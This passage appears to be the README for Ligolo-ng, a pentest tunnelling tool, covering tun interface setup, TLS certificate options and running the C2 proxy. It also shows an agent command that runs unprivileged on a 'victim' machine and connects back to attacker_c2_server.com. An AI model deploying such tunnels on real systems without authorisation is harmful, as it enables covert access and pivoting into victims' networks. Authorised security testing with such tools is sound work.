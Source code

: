 ### Setup Ligolo-ng

#### Linux

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```shell
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

#### Windows

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

#### Running Ligolo-ng proxy server

Start the *proxy* server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
```

### TLS Options

#### Using Let's Encrypt Autocert

When using the `-autocert` option, the proxy will automatically request a certificate (using Let's Encrypt) for *attacker_c2_server.com* when an agent connects.

> Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval

#### Using your own TLS certificates

If you want to use your own certificates for the proxy server, you can use the `-certfile` and `-keyfile` parameters.

#### Automatic self-signed certificates (NOT RECOMMENDED)

The *proxy/relay* can automatically generate self-signed TLS certificates using the `-selfcert` option.

The `-ignore-cert` option needs to be used with the *agent*.

> Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.
### Using Ligolo-ng


Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```
